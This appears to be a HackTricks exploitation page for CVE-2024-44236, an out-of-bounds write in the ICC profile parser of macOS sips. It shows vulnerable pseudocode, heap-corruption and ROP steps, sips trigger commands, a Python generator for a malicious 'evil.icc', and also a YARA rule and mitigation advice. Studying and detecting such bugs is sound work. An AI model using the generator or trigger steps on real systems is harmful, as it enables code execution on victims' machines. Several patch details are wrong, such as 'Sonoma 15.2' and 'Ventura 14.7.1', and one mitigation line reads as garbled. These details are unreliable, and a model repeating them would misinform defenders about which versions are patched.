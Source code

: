 # WWW2Exec - sips ICC Profile Out-of-Bounds Write (CVE-2024-44236)

{{#include ../../banners/hacktricks-training.md}}

## Overview

An out-of-bounds **zero-write** vulnerability in Apple macOS **Scriptable Image Processing System** (`sips`) ICC profile parser (macOS 15.0.1, `sips-307`) allows an attacker to corrupt heap metadata and pivot the primitive into full code-execution. The bug is located in the handling of the `offsetToCLUT` field of the `lutAToBType` (`mAB `) and `lutBToAType` (`mBA `) tags. If attackers set `offsetToCLUT == tagDataSize`, the parser erases **16 bytes past the end of the heap buffer**. Heap spraying lets the attacker zero-out allocator structures or C++ pointers that will later be dereferenced, yielding an **arbitrary-write-to-exec** chain (CVE-2024-44236, CVSS 7.8).

> Apple patched the bug in macOS Sonoma 15.2 / Ventura 14.7.1 (October 30, 2024). A second variant (CVE-2025-24185) was fixed in macOS 15.5 and iOS/iPadOS 18.5 on April 1, 2025.

## Vulnerable Code

```c
// Pseudocode extracted from sub_1000194D0 in sips-307 (macOS 15.0.1)
if (offsetToCLUT <= tagDataSize) {
    // BAD ➜ zero 16 bytes starting *at* offsetToCLUT
    for (uint32_t i = offsetToCLUT; i < offsetToCLUT + 16; i++)
        buffer[i] = 0;            // no bounds check vs allocated size!
}
```

## Exploitation Steps

1. **Craft a malicious `.icc` profile**

   * Set up a minimal ICC header (`acsp`) and add one `mAB ` (or `mBA `) tag.
   * Configure the tag table so the **`offsetToCLUT` equals the tag size** (`tagDataSize`).
   * Place attacker-controlled data right after the tag so that the 16 zero writes overlap allocator metadata.

2. **Trigger parsing with any sips operation that touches the profile**

   ```bash
   # verification path (no output file needed)
   sips --verifyColor evil.icc
   # or implicitly when converting images that embed the profile
   sips -s format png payload.jpg --out out.png
   ```

3. **Heap metadata corruption ➜ arbitrary write ➜ ROP**  
   On Apple’s default **`nano_zone` allocator**, metadata for 16-byte slots lives **immediately after** the aligned 0x1000 slab. By placing the profile’s tag at the end of such a slab, the 16 zero-writes clobber `meta->slot_B`. After a subsequent `free`, the poisoned pointer is enqueued in the tiny free list, letting the attacker **allocate a fake object at an arbitrary address** and overwrite a C++ vtable pointer used by sips, finally pivoting execution to a ROP chain stored in the malicious ICC buffer.

### Quick PoC generator (Python 3)

```python
#!/usr/bin/env python3
import struct, sys

HDR = b'acsp'.ljust(128, b'\0')          # ICC header (magic + padding)
TAGS = [(b'mAB ', 132, 52)]              # one tag directly after header
profile  = HDR
profile += struct.pack('>I', len(TAGS))  # tag count
profile += b''.join(struct.pack('>4sII', *t) for t in TAGS)

mab = bytearray(52)                      # tag payload (52 bytes)
struct.pack_into('>I', mab, 44, 52)      # offsetToCLUT = size (OOB start)
profile += mab

open('evil.icc', 'wb').write(profile)
print('[+] Wrote evil.icc (%d bytes)' % len(profile))
```

### YARA detection rule

```yara
rule ICC_mAB_offsetToCLUT_anomaly
{
    meta:
        description = "Detect CLUT offset equal to tag length in mAB/mBA (CVE-2024-44236)"
        author       = "HackTricks"
    strings:
        $magic = { 61 63 73 70 }          // 'acsp'
        $mab   = { 6D 41 42 20 }          // 'mAB '
        $mba   = { 6D 42 41 20 }          // 'mBA '
    condition:
        $magic at 0 and
        for any i in (0 .. 10):           // up to 10 tags
            (
              ($mab at 132 + 12*i or $mba at 132 + 12*i) and
              uint32(132 + 12*i + 4) == uint32(132 + 12*i + 8) // offset == size
            )
}
```

## Impact

Opening or processing a crafted ICC profile leads to remote **arbitrary code execution** in the context of the invoking user (Preview, QuickLook, Safari image rendering, Mail attachments, etc.), bypassing Gatekeeper because the profile can be embedded inside otherwise benign images (PNG/JPEG/TIFF).

## Detection & Mitigation

* **Patch!** Ensure the host is running macOS ≥ 15.2 / 14.7.1 (or iOS/iPadOS ≥ 18.1).  
* Deploy the YARA rule above on email gateways and EDR solutions.  
* Strip or sanitise embedded ICC profiles with `exiftool -icc_profile= -overwrite_original <file>` before further processing on untrusted files.  
* Harden Preview/QuickLook by running them inside sandboxed “transparency & modernisation” VMs when analysing unknown content.  
* For DFIR, look for recent execution of `sips --verifyColor` or `ColorSync` library loads by sandboxed apps in the unified log.

## References

* Trend Micro Zero Day Initiative advisory ZDI-24-1445 – “Apple macOS ICC Profile Parsing Out-of-Bounds Write Remote Code Execution (CVE-2024-44236)”  
  https://www.zerodayinitiative.com/advisories/ZDI-24-1445/  
* Apple security updates HT213981 “About the security content of macOS Sonoma 15.2”  
  https://support.apple.com/en-us/HT213981

{{#include ../../banners/hacktricks-training.md}}
